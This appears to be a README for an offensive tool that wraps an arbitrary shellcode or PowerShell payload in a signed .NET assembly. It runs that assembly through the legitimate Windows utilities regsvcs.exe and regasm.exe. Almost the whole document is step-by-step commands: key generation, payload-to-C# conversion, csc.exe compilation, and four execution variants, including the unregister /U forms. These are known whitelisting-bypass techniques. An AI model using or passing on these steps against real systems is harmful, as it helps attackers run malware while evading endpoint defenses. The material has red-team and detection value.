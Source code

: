 ## Rogue .NET Assembly for Regsvcs/Regasm Code Execution

Follow below described steps to properly generate your source code and then compile it to a .NET Assembly valid for Regasm/Regsvcs:

### Step 1: Generate key.snk file

```
powershell -file build.ps1
```

### Step 2: Generate source code file

```
python3 generateRegsvcs.py -r payload.bin > program.cs
```

###  Step 3: Compilate library .NET Assembly

```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library /out:regsvcs.dll /keyfile:key.snk program.cs
```
 
If you passed Powershell code to be launched in a .NET Runspace, then an additional assembly will have to be used to compile resulting source code properly - meaning System.Management.Automation.dll (provided with this script). Then proper compilation command will be:

```
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.Management.Automation.dll /target:library /out:regsvcs.dll /keyfile:key.snk program.cs
```


### Step 4: Code execution via Regsvcs or Regasm:

```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe regsvcs.dll
```
   or
```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe regsvcs.dll
```
   or
```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe /U regsvcs.dll 
```
   or
```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U regsvcs.dll
```

